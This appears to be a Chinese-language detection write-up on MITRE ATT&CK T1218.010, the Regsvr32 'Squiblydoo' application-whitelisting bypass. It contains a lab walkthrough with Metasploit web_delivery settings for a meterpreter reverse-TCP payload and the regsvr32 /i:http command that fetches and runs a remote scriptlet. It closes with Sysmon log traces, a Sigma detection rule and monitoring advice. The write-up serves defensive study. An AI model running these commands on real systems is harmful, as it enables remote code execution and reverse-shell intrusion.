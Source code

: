 # T1218-010-win-使用Regsvr32执行payload（白名单）

## 来自ATT&CK的描述

命令行程序Regsvr32.exe用于在Windows系统上注册和注销对象链接及嵌入控件，包括动态链接库（DLL）。Regsvr32.exe可用于执行任意二进制文件。

攻击者可能会利用此功能代理执行代码，从而避免触发那些可能不会监控regsvr32.exe进程执行及其加载模块的安全工具，因为正常操作中使用regsvr32.exe的Windows会有白名单或误报。Regsvr32.exe也是微软签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，方法是加载COM脚本小程序在用户权限下执行动态链接库。由于regsvr32.exe具有网络和代理感知功能，可以在调用期间将URL作为参数传递到外部web服务器上的文件来加载脚本。此方法不对注册表进行任何更改，因为COM对象实际上未注册，仅执行。这个技术变种通常称为“Squiblydoo”攻击，已被攻击者用于针对政府的活动中。

攻击者还可能会利用Regsvr32.exe来注册COM对象以便通过COM劫持建立持久性。

## 测试案例

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

说明：Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

默认位置：

```bash
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 3
target => 3
msf5 exploit(multi/script/web_delivery) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://0.0.0.0:8080/06Yud7aXXqYqT
[*] Local IP: http://192.168.126.146:8080/06Yud7aXXqYqT
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

#### 靶机执行payload

```cmd
regsvr32 /s /n /u /i:http://192.168.126.146:8080/jnOUcgr0b0 scrobj.dll
```

#### 反弹shell

```bash
msf5 exploit(multi/script/web_delivery) > [*] 192.168.126.149  web_delivery - Handling .sct Request
[*] 192.168.126.149  web_delivery - Delivering Payload (1900 bytes)
[*] 192.168.126.149  web_delivery - Handling .sct Request
```

以失败告终，windows powershell已停止工作

## 测试留痕

```log
EventID：1
Image: C:\Windows\System32\regsvr32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Microsoft(C) Register Server
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: REGSVR32.EXE
CommandLine: regsvr32  /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
# sysmon日志
```

## 检测规则/思路

### sigma规则

```yml
title: Regsvr32 Anomaly
status: experimental
description: Detects various anomalies in relation to regsvr32.exe
author: Florian Roth
date: 2019/01/16
references:
    - https://subt0x10.blogspot.de/2017/04/bypass-application-whitelisting-script.html
tags:
    - attack.t1117
    - attack.defense_evasion
    - attack.execution
    - car.2019-04-002
    - car.2019-04-003
logsource:
    category: process_creation
    product: windows
detection:
    selection1:
        Image: '*\regsvr32.exe'
        CommandLine: '*\Temp\\*'
    selection2:
        Image: '*\regsvr32.exe'
        ParentImage: '*\powershell.exe'
    selection3:
        Image: '*\regsvr32.exe'
        ParentImage: '*\cmd.exe'
    selection4:
        Image: '*\regsvr32.exe'
        CommandLine:
            - '*/i:http* scrobj.dll'
            - '*/i:ftp* scrobj.dll'
    selection5:
        Image: '*\wscript.exe'
        ParentImage: '*\regsvr32.exe'
    selection6:
        Image: '*\EXCEL.EXE'
        CommandLine: '*..\..\..\Windows\System32\regsvr32.exe *'
    condition: 1 of them
fields:
    - CommandLine
    - ParentCommandLine
falsepositives:
    - Unknown
level: high
```

### 建议

通过进程监控来检测和分析regsvr32.exe的执行和参数。比较regsvr32.exe的近期调用与历史已知合法参数及已加载文件来确定是否有异常和潜在的攻击活动。在regsvr32.exe调用之前和之后使用的命令参数也可用于确定正在加载的脚本或者动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-010

<https://attack.mitre.org/techniques/T1218/010/>
